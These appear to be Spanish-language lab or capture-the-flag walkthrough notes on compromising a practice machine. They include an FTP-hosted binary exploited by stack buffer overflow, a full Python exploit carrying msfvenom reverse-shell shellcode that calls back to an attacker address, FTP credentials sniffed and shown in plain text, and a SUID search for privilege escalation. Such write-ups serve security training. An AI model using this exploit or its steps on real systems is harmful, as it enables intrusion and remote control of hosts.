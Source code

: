[[192.168.100.7(Nagini)]]

Haremos un [[NMAP]]
`nmap -sT -Pn -p- --open -T5 -v -n 192.168.100.5`

```python
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
2222/tcp open  EtherNetIP-1
9898/tcp open  monkeycom
```

Vemos que el puerto del FTP esta activado así que vamos a probar a conectarnos, vemos que se puede acceder como usuarios `anonymous`

Vemos un binario llamado `server_hogwarts` así que con strace vamos a ver que es lo que hace y en que consiste: `strace ./server_hogwarts`, vemos que lo que realiza es montar un servidor por el puerto `9898`

Si ejecutamos el binario podremos acceder a el con netcat usando `nc localhost 9898` que es el puerto que estaba abierto durante el nmap.
El binario pide un input así que si no se ha definido bien un tamaño de buffer sin sanitizarlo se podría acontecer un bufferoverflow

Para poder realizar esto nos ejecutaremos el programa con la herramienta de gdb: `gdb ./server_hpgwarts -q` y para correr la herramienta usaremos la r una vez dentro de gdb.

Y en la otra terminal nos conectamos con netcat e introducimos todas las "A" posibles, y llenaremos el EIP de "A" o en hexadecimal 4141414141.

Si ejecutamos checsec nos mostrara si NX esta desactivado que nos permitirá hacer que un flujo de la pila se interprete cómo shellcode

En gdb haremos `cyclic 1024` para que nos cree un patrón de letras para identificar donde se llena el EIP
Una vez se llena el EIP copiamos el valor hexadecimal y ejecutamos `cyclic -o 0x62616164` y te dice en que bite esta el offset

Ahora para apuntar al EIP directamente usaremos el siguiente comando de python para llenar el EIP y verificar que se llena de "B" `python3 -c 'print("A"*112 + "B"*4 +"C"*100)'` y al llenarlo nuestro ESP apunta al comienzo de las letra "C" 

Ahora tenemos que hacer que EIP apunte directamente al ESP para que una vez salte a este se ejecute un shellcode

Necesitaremos realizar un shellcode que haremos con msfvenom:
`msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.100.7 LPORT=5555 -b '\x00\x0a\x0d' -f py -v shellcode`

Usaremos objdump para encontrar el OpCode que hace el salto al ESP
Para saber a donde se corresponde el OpCode usaremos `/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb` e introducimos `jmp ESP` nos dice que el OpCode corresponde a `FFE4`

Ahora objdum ejecutamos:
`objdump -D server_hogwarts| grep "ff e4"`

Nos mostrara direcciones que realizan ese salto que buscábamos en este caso: ``
`8049d55` tiene que estar en little endian así que le damos la vuelta en el código

Vamos a realizar un `exploit.py` para realizar esto:
```python
#!/usr/bin/python3

import socket

offset = 112
before_eip = b"A"*offset

eip = b"\x55\x9d\x04\x08" # 8049d55 jump ESP

shellcode = b""
shellcode += b"\xdb\xd8\xd9\x74\x24\xf4\xb8\x74\xc6\xd0\xaa"
shellcode += b"\x5b\x29\xc9\xb1\x12\x31\x43\x17\x03\x43\x17"
shellcode += b"\x83\x9f\x3a\x32\x5f\x6e\x18\x44\x43\xc3\xdd"
shellcode += b"\xf8\xee\xe1\x68\x1f\x5e\x83\xa7\x60\x0c\x12"
shellcode += b"\x88\x5e\xfe\x24\xa1\xd9\xf9\x4c\xf2\xb2\x9e"
shellcode += b"\x89\x9a\xc0\x5e\x84\xe9\x4c\xbf\x16\x6b\x1f"
shellcode += b"\x11\x05\xc7\x9c\x18\x48\xea\x23\x48\xe2\x9b"
shellcode += b"\x0c\x1e\x9a\x0b\x7c\xcf\x38\xa5\x0b\xec\xee"
shellcode += b"\x66\x85\x12\xbe\x82\x58\x54"

after_eip = b"\x90"*32 + shellcode # ESP

payload = before_eip + eip + after_eip

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.100.5", 9898))
s.send(payload)
s.close()
```

En la maquina [[192.168.100.7(Nagini)]] con socat deberemos configurar el renvio de paquetes



Una vez tenemos la shell en el directorio de `/root` encontramos un archivo `notes.txt` que nos dice que han detectado una entrada de un usuario por ftp, asi que con `tcpdump -i eth0 port ftp or ftp-data`
Veremos el trafico hacia ese puerto pudiendo identificar un usuario y una contraseña `neville::bL!Bsg3k`

Con estas credenciales podemos acceder a la maquina via ssh
No nos permite enumerar permisos de sudo con `sudo -l` asi que buscaremos permisos SUID con `find / -perm -4000 2>/dev/null`
